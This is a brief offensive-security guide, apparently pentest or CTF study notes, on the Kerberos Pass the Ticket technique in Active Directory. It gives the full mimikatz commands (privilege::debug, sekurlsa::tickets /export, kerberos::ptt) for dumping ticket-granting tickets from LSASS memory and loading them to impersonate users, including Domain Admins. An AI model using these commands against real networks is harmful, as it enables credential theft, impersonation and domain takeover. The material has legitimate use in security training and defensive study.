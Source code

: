 Requirements:
Admin on any AD machine.

##### Overview
Pass the Ticket works by dumping the TGT from the machine's LSASS (Local Security Authority Subsystem Service) memory. This is a system that stores AD credentials. Dumping the TGT with mimikatz will give a .kirbi ticket, which can be used to gain Domain Admin rights if there is a Domain Admin ticket in the LSASS memory. You can use this to impersonate the DA, and get some privilege escalation.


##### Mimikatz exploitation
Gaining tickets:
```
./mimikatz.exe // run mimikatz
privilege::debug // If it does not return "[output '20' OK]", you have not run it as an administrator.
sekurlsa::tickets /export  // Dumps all the .kirbi tickets in LSASS memory to the current directory.
```
Passing obtained tickets:
```
kerberos::ptt TICKET // Load and impersonate the user from TICKET
klist // Get information on loaded ticket
```
Now open a CMD/Powershell shell and you can impersonate the ticket.